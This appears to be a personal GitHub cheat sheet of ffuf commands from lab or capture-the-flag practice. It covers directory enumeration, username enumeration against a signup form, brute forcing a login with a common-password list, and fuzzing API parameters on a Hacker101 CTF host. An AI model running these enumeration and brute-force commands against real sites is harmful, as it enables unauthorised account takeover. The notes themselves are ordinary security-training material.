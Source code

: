 [![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

# fuff
<hr/>

## Enumerate URLs with Ffuf
```sh
ffuf -u http://localhost:3000/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
```

## username enumeration
http://10.10.13.16/customers/signup

```sh
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.13.16/customers/signup -mr "username already exists"
```

## brute force
http://10.10.13.16/customers/login

```sh
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.13.16/customers/login -fc 200
```


### Find api Parameter

find whent it always return 200 
```sh
ffuf -u https://3c16143e884e5b3fe326d43bcad3d616.ctf.hacker101.com/api/v1/status?FUZZ=1 -w ~/wordlist/fuzz-lfi-params-list.txt -fs 1-20 -s
```

-fs 1-20, filter by size  
-s scilent mode